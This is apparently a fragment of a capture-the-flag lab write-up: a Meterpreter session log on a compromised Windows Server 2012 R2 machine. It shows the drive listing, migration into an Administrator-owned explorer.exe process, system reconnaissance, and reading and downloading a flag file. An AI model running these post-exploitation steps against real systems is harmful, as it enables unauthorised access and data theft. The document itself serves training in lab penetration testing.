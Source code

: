 ```bash
meterpreter > show_mount 

    Mounts / Drives
    ===============
    
    Name  Type   Size (Total)  Size (Free)  Mapped to
    ----  ----   ------------  -----------  ---------
    C:\   fixed   29.66 GiB      8.48 GiB   
    
    
    Total mounts/drives: 1
```

```bash
meterpreter > ps
     2532  2492  explorer.exe          x64   1        WIN-OMCNBKR66MN\Administrator  C:\Windows\explorer.exe

meterpreter > migrate 2532
    [*] Migrating from 1604 to 2532...
    [*] Migration completed successfully.

# meterpreter changed to x64 based on migrated process
meterpreter > sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows
```

```bash
meterpreter > cd C:\\

meterpreter > ls
    Listing: C:\
    ============
    
    Mode              Size       Type  Last modified              Name
    ----              ----       ----  -------------              ----
    40777/rwxrwxrwx   0          dir   2020-08-12 09:43:47 +0530  $Recycle.Bin
    100666/rw-rw-rw-  1          fil   2013-08-22 21:16:48 +0530  BOOTNXT
    40777/rwxrwxrwx   0          dir   2013-08-22 20:18:41 +0530  Documents and Settings
    40777/rwxrwxrwx   0          dir   2013-08-22 21:09:30 +0530  PerfLogs
    40555/r-xr-xr-x   4096       dir   2013-08-22 19:06:16 +0530  Program Files
    40777/rwxrwxrwx   4096       dir   2013-08-22 19:06:16 +0530  Program Files (x86)
    40777/rwxrwxrwx   4096       dir   2013-08-22 19:06:16 +0530  ProgramData
    40777/rwxrwxrwx   0          dir   2020-09-05 09:16:25 +0530  System Volume Information
    40555/r-xr-xr-x   4096       dir   2013-08-22 19:06:16 +0530  Users
    40777/rwxrwxrwx   24576      dir   2013-08-22 19:06:16 +0530  Windows
    100444/r--r--r--  398356     fil   2013-08-22 21:16:48 +0530  bootmgr
    100666/rw-rw-rw-  32         fil   2020-09-14 12:21:58 +0530  flag.txt
    40777/rwxrwxrwx   0          dir   2020-09-14 11:40:20 +0530  hfs
    0000/---------    233263088  fif   1977-05-15 20:38:32 +0530  pagefile.sys

meterpreter > cat flag.txt 
    f74c8347798f4082daf4b4570dba094a

meterpreter > download flag.txt
    [*] Downloading: flag.txt -> flag.txt
    [*] Downloaded 32.00 B of 32.00 B (100.0%): flag.txt -> flag.txt
    [*] download   : flag.txt -> flag.txt
```